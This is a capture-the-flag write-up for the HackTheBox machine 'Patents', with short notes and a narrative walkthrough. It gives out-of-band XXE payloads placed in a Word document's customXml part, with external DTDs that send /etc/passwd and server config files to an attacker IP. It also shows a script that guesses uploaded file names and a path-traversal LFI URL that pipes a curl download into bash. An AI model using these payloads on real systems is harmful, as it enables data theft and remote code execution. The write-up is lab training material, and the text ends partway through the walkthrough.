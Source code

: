 Patents is a 40-point Linux machine on HackTheBox. For user we exploit an external entity injection in a word document and a local file inclusion that involves path traversal and calculating the name of an uploaded file. For root we use return oriented programming to exploit a stack overflow in a tcp server.

Notes
```
customXml\item1.xml:

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.8:8000/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
dtd.xml:

<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.8:8000/dtd.xml?%data;'>">
Rce.py:

#!/usr/bin/python3
import hashlib
import datetime
import requests
import time
 
proxyDict = { 
              "http"  : "127.0.0.1:8081", 
            }
 
result = requests.get("http://patents.htb")
dateHdr = result.headers['Date']
t = datetime.datetime.strptime(dateHdr, '%a, %d %b %Y %H:%M:%S GMT')
t -= datetime.timedelta(minutes=5)
it = int(t.timestamp())
 
 
while True: 
    url = f"http://patents.htb/uploads/{hashlib.sha256(b'xct.php' + str(it).encode('utf-8')).hexdigest()}.docx"
    r = requests.get(url)#, proxies=proxyDict)
    if r.status_code == 200:
        print(it)
        print(url)
    it += 1

```

LFI:

http://patents.htb/getPatent_alphav1.0.php?id=..././uploads/<id>.docx&cmd=curl%2010.10.14.8:8000/xct.sh%20|%20bash
The Root Exploit.

Reads
https://blogs.sap.com/2017/04/24/openxml-in-word-processing-custom-xml-part-mapping-flat-data/
https://0x00sec.org/t/remote-exploit-shellcode-without-sockets/1440
https://github.com/Svenito/exploit-pattern
  
  
##
##
##
  
  
  
Patents was quite a difficult box from gb.yolo (who's now a teammate of mine!) with a realistic pwn in the end.  Overall, it was a very enjoyable box that took a while!  Before I start, I would like to thank D3v17 and pottm, my teammates who worked with me on this box.  Additionally, I would like to thank oep, Sp3eD, R4J, and Deimos who I also colloborated with at times throughout the box and discussed with afterwards.

On the initial nmap scan, we see port 22, 80, and 8888.  Port 8888 seems to be a web server, but none of the browsers would work with it and it mentions something about LFM... I wasn't too sure what this was so I ended up focusing all my efforts on the port 80 webpage.


After a while, I ended up retrieving a lot of enumerated folders back with dirb and gobuster.  None of them really showed anything insightful, and I tried around with XXEs and other possible attack vectors against this document to pdf conversion as it allowed us to upload docx files to convert into pdf files.  I ended up going back to more enumeration to see if anything else more insightful would appear, using different wordlists from seclist.

After a few more hours, the following showed up from Discovery/Web-Content/raft-large-words.txt in the release subdirectory in dirb: http://parent.htb/release/UpdateDetails

It showed the following details:

As Sp3ed mentioned to me, the author keeps mentioning a custom folder and entity parsing there.  Googling around, you can find several references to a customXML part or folder in word documents.  Perhaps this is where we can utilize the XXE!

Starting off, I just created a fresh new word document (you can download samples here: https://file-examples.com/index.php/sample-documents-download/sample-doc-download/) and unzipped the internals, then added a customXML folder.  This SO post also revealed some important information by mentioning how the format within this part should be item#.xml: https://stackoverflow.com/questions/38789361/vsto-word-2013-add-in-add-custom-xml-to-document-xml-without-it-being-visible

Quoting the post:
"The item#.xml files are where custom XML get stored, and it's the only way to store complex data in a Word document without it being a part of the document content. Another program can read it pretty easily, typically using the OpenXML SDK.
So you're doing the right thing here, but whatever software needs to read this needs to look in the customXml folder for that item#.xml file, instead of the word/document.xml file. It will have to look for the namespace you defined."

In that file, I tried some different XXE payloads from here, then remade it into a docx and uploaded it: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter

After a few different payloads, I figured that this is an out of band XXE (hence the link above): https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/

This went into the item1.xml file.

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.6/evil.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

On my local side, I hosted an http server with the evil.xml dtd (the base64 helps make the data exfiltration easier):

<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.6/hahagotcha?%data;'>">

I ended up getting a response pretty quickly:


Basically, the xml parser requests the dtd file hosted on my side, which then tells it to load the target file and then send the data in the form of base64 encoded data back to me.  Anyways, let's try to get some useful information!  Turns out looking at vhost data can provide some interesting insight!  I thought vhost because none of the other files dirb/gobuster found seemed to be able to be exfiltrated.

<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/apache2/sites-available/000-default.conf">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.6/hahagotcha?%data;'>">

After base64 decoding the output, we see the following:

<VirtualHost *:80>
  DocumentRoot /var/www/html/docx2pdf

  <Directory /var/www/html/docx2pdf/>
      Options -Indexes +FollowSymLinks +MultiViews
      AllowOverride All
      Order deny,allow
      Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

Ah, so the root dir for this web server is at docx2pdf!  Now, taking a look at config.php:

<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/docx2pdf/config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.6/hahagotcha?%data;'>">

Here's the decoded result:

<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>



##
##
  
